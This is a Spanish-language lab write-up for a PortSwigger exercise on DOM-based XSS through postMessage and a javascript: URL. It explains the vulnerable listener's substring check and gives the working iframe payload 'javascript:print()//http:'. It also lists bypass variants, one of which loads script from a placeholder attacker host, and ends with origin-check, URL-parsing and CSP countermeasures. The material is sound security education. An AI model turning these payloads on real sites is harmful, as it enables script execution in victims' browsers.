

# Writeup: DOM XSS using web messages and a JavaScript URL (PortSwigger)

- **Lab**: DOM XSS using web messages and a JavaScript URL
- **URL**: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url
- **Categoría**: DOM-based vulnerabilities -> Controlling the web message source
- **Dificultad**: Practitioner
- **Credenciales**: no requiere login

---

## 1. Objetivo

Variante del lab anterior ([`dom-xss-using-web-messages`](../dom-xss-using-web-messages/writeup.md)). Esta vez el listener **sí** intenta validar el mensaje, pero la validación es trivialmente bypasseable y el sink cambia: en lugar de `innerHTML`, el dato termina en `location.href`.

El payload usa una `javascript:` URL para ejecutar `print()` cuando el navegador navega al esquema. La validación se engaña metiendo la string `http:` como comentario JS al final.

### Lo importante antes de tocar nada

- **Listener con validación rota**: comprueba si `e.data.indexOf('http:') !== -1` (o `https:`). Suficiente para bloquear strings totalmente arbitrarias, inútil para bloquear payloads que **contienen** la subcadena.
- **Sink nuevo**: `location.href = e.data`. Ya no es `innerHTML`. Eso cambia el tipo de payload requerido: ahora hay que entregar una URL navegable, no HTML inyectable.
- **Por qué `javascript:` funciona como URL**: `location.href = 'javascript:CODE'` ejecuta `CODE` en el contexto de la página actual. Es un esquema estándar (deprecado en muchos contextos pero todavía soportado), no un hack del navegador.
- **El truco del comentario `//http:`**: en JavaScript, `//` inicia un comentario de línea. Todo lo que viene después se ignora al ejecutar. Pero la **validación** del listener trabaja sobre el string crudo, no sobre el AST JS, así que ve el `http:` y lo aprueba.

---

## 2. Reconocimiento

### 2.1 Identificar listener y validación

En el HTML de la home, algo equivalente a:

```html
<script>
    window.addEventListener('message', function(e) {
        if (e.data.indexOf('http:') > -1 || e.data.indexOf('https:') > -1) {
            location.href = e.data;
        }
    });
</script>
```

Tres observaciones clave:

1. **Validación de contenido, no de origen**. Sigue sin haber `if (e.origin !== ...)`. Es el mismo error de base que el lab anterior, ahora acompañado de un control adicional sobre el dato.
2. **`indexOf` busca substring, no parsea**. Cualquier string que **contenga** `http:` pasa, aunque el resto sea código arbitrario. La validación no sabe distinguir entre una URL legítima `https://example.com` y un payload `javascript:print()//http:`.
3. **Sink `location.href`**. Soporta múltiples esquemas: `http`, `https`, `javascript`, `data`, `blob`, `mailto`, etc. La validación del lab no restringe esquema, sólo busca substring.

### 2.2 Por qué falla un payload "puro"

Si reusamos el del lab anterior:

```js
window.postMessage('', '*')
```

El listener evalúa `''.indexOf('http:')` → `-1`. La condición es falsa. Ni se ejecuta el `location.href`. El sink no se dispara.

Si probamos `javascript:print()` solo:

```js
window.postMessage('javascript:print()', '*')
```

Mismo problema: no contiene `http:`. Falla la validación. Hay que añadir `http:` de algún modo que **no rompa** el JS que va a ejecutarse.

---

## 3. Diseño del ataque

### Componentes

1. **Iframe** apuntando al lab, igual que el lab anterior. Sigue siendo el vector de entrega: cargar el lab dentro de un iframe controlado y dispararle un `postMessage`.
2. **Payload con doble propósito**: una sola string que es a la vez (a) un programa JS válido que llama `print()`, y (b) contiene la subcadena `http:` para pasar el validador.
3. **Comentario JS como puente**: `//` empieza un comentario; lo que sigue es ignorado al ejecutar pero contado al validar.

### Payload

```html
<iframe src="https://LAB-ID.web-security-academy.net/"
        onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
```

### Diseccionando `javascript:print()//http:`

Cuando el navegador hace `location.href = 'javascript:print()//http:'`:

1. Reconoce el esquema `javascript:`.
2. Ejecuta el resto como código JS en el contexto del documento actual: `print()//http:`.
3. JS parsea: `print()` (llamada de función) → `//http:` (comentario, ignorado hasta fin de línea).
4. `print()` corre. Diálogo de impresión.

Cuando el listener evalúa `'javascript:print()//http:'.indexOf('http:')`:

1. Busca substring `http:` en el string.
2. La encuentra dentro del comentario `//http:` (posición 17, da igual).
3. Devuelve `≥ 0`, condición pasa.
4. Ejecuta `location.href = 'javascript:print()//http:'` → ejecución.

El validador y el ejecutor JS interpretan el mismo string de formas distintas. Esa **divergencia de parseo** es la clave de la mayoría de bypasses de filtros de string.

---

## 4. Por qué funciona

### 4.1 Validación por substring vs intención semántica

El developer pensó: "si el mensaje empieza por `http://` o `https://`, es una URL legítima de mi app, así que es seguro pasarlo a `location.href`". Tradujo esa intención mal:

```js
// Lo que escribieron (substring search):
e.data.indexOf('http:') > -1

// Lo que querían (anclaje al inicio + URL parseable):
try {
    const u = new URL(e.data);
    return u.protocol === 'http:' || u.protocol === 'https:';
} catch { return false; }
```

`indexOf` no ancla, no parsea, no entiende esquema. Cualquier substring en cualquier posición vale. Es la misma clase de bug que en SQL injection con `LIKE '%admin%'` o en path traversal con `if (path.includes('..'))`: validación a nivel de bytes sobre datos que tienen estructura.

### 4.2 `javascript:` URLs siguen siendo un sink ejecutable

`location.href = 'javascript:CODE'` ejecuta `CODE` en el origen de la página actual. Lo mismo aplica a `<a href="javascript:...">` clickeado, `window.open('javascript:...')`, y algunos atributos legacy. Los navegadores modernos han recortado superficie (los CSP con `script-src 'self'` bloquean inline JS pero **no siempre** bloquean `javascript:` URLs en sinks de navegación; depende de la versión y del directive set).

La regla mental: cualquier sink que acepte una URL acepta potencialmente `javascript:`. Allowlist de esquemas (`http`, `https`, `mailto`) es defensa correcta; blocklist o substring search no.

### 4.3 El truco del comentario es portable

`//` funciona como comentario de línea en JS sin importar lo que venga después. Variantes equivalentes que también pasan el filtro:

```
javascript:print()//https:
javascript:print();//http:
javascript:print()/*http:*/
javascript:print();void('http:')
```

Para validadores que busquen `http://` con doble slash, basta con extender el comentario:

```
javascript:print()//http://anything
```

Para validadores que requieran que la URL **empiece** con `http`, el bypass cambia a usar `data:` URI o trucos con `//`:

```
http://x;javascript:print()    // depende del parser de URL
//atacante.com/payload.js      // protocol-relative URL
```

Cada validador roto tiene su variante de bypass. La defensa correcta no es ir tapando casos: es parsear con `new URL()` y validar `protocol`.

---

## 5. Resolución

1. Abrir el lab. En la home, ver en el HTML el listener con `indexOf('http:')` y `location.href = e.data`.
2. (Opcional) Confirmar el sink localmente desde la consola:
   ```js
   window.postMessage('javascript:print()//http:', '*')
   ```
   Debe abrir el diálogo de impresión.
3. Ir al **Go to exploit server**. En el body del exploit, pegar:
   ```html
   <iframe src="https://LAB-ID.web-security-academy.net/"
           onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
   ```
   Reemplazar `LAB-ID.web-security-academy.net` por el host real del lab.
4. Pulsar **Store** y luego **Deliver exploit to victim**.
5. El bot abre la página del exploit, el iframe carga el lab, el `onload` dispara `postMessage`, el listener valida (`http:` está presente), asigna `location.href`, el navegador ejecuta `javascript:print()`. El lab queda Solved.



Si tras "Deliver" el lab no se resuelve:

- Olvido del `//http:` final. Sin él, el filtro bloquea el mensaje.
- Mensaje con `alert()` en vez de `print()`. PortSwigger sólo detecta `print` en bot.
- El `onload` mal escrito (comillas simples/dobles cruzadas). Mantener exactamente: `onload="this.contentWindow.postMessage('javascript:print()//http:','*')"`.

---

## 6. Resumen de la cadena

```mermaid
flowchart TB
    A[1. Atacante hospeda exploit con iframe + postMessage]
    B[2. Victima visita la URL del exploit server]
    C[3. Iframe carga la home del lab con la cookie de la victima]
    D[4. onload dispara postMessage con 'javascript:print()//http:']
    E[5. Listener evalua indexOf 'http:' → encuentra match en el comentario]
    F[6. Validacion pasa: location.href = e.data]
    G[7. Browser interpreta esquema javascript: y ejecuta print]
    H[8. //http: queda como comentario JS, ignorado]

    A --> B --> C --> D --> E --> F --> G --> H
```

Tres ideas para llevarse:

1. **Validar substrings de URL es una clase de bug, no un caso aislado**. `indexOf`, `includes`, `startsWith` sobre URLs sin parsear es siempre bypasseable. Para URLs, parsear con `new URL()` y validar `protocol`/`hostname`/`pathname` por separado.
2. **`javascript:` es un esquema, no un truco**. Cualquier sink de navegación (`location.href`, `location.assign`, `window.open`, `<a href>`, `<form action>`) ejecuta JS si recibe una `javascript:` URL. Sanitización de URLs requiere allowlist explícita de esquemas.
3. **Validador y ejecutor parsean distinto**: la mayoría de bypasses explotan esa divergencia. Aquí, `indexOf` ve un string plano; el motor JS ve una expresión + comentario. La defensa pasa por usar el **mismo parser** para validar y para ejecutar (parsear como URL antes de pasarla a un sink de URL).

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **Validar `event.origin`** en el listener. Es el mismo gate del lab anterior; aquí sigue ausente. Sin él, cualquier sitio externo puede entregar mensajes.
2. **Parsear con `new URL()` y allowlist de esquemas**:
   ```js
   window.addEventListener('message', function(e) {
       if (e.origin !== 'https://trusted.example') return;
       try {
           const u = new URL(e.data);
           if (u.protocol !== 'https:' && u.protocol !== 'http:') return;
           location.href = u.href;
       } catch { return; }
   });
   ```
   `new URL()` rechaza `javascript:print()//http:` con `protocol === 'javascript:'`, que la allowlist bloquea.
3. **Protocolo de mensaje tipado**. Esperar `{type: 'navigate', url: '...'}`, no strings sueltas. Reduce el espacio de payloads válidos drásticamente.
4. **CSP con `script-src` estricto y `navigate-to`/`form-action`**. Una CSP que prohíba ejecución de inline JS y restrinja navegación reduce el impacto incluso si la validación falla. Nota: la directiva `navigate-to` aún tiene soporte irregular; combinar con `frame-src` y validación en el JS.
5. **Reemplazar `location.href` por una API más restrictiva** cuando sea posible. Por ejemplo, si la app sólo navega entre rutas internas, derivar el destino del lado servidor y pasar sólo un identificador (`{type: 'go', page: 'home'}` → `location.href = ROUTES[msg.page]`).
6. **`Trusted Types`**. La API de Trusted Types puede aplicarse a sinks como `location.href` (`require-trusted-types-for 'script'` no la cubre directamente, pero hay propuestas de extender). Mientras tanto, el patrón "wrap todo sink en una función con validación" da el mismo efecto manualmente.

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: DOM XSS using web messages and a JavaScript URL*. https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url
- PortSwigger Web Security Academy. (s.f.). *DOM-based vulnerabilities*. https://portswigger.net/web-security/dom-based
- MDN Web Docs. (s.f.). *Window: postMessage() method*. https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage
- MDN Web Docs. (s.f.). *Location: href property*. https://developer.mozilla.org/en-US/docs/Web/API/Location/href
- MDN Web Docs. (s.f.). *URL() constructor*. https://developer.mozilla.org/en-US/docs/Web/API/URL/URL
- OWASP Foundation. (s.f.). *DOM based XSS Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-xss.md`](../../../inventario/04-explotacion/web/explotacion-xss.md)
- Writeup hermano (sin validación): [`learning/portswigger/dom-xss-using-web-messages/writeup.md`](../dom-xss-using-web-messages/writeup.md)
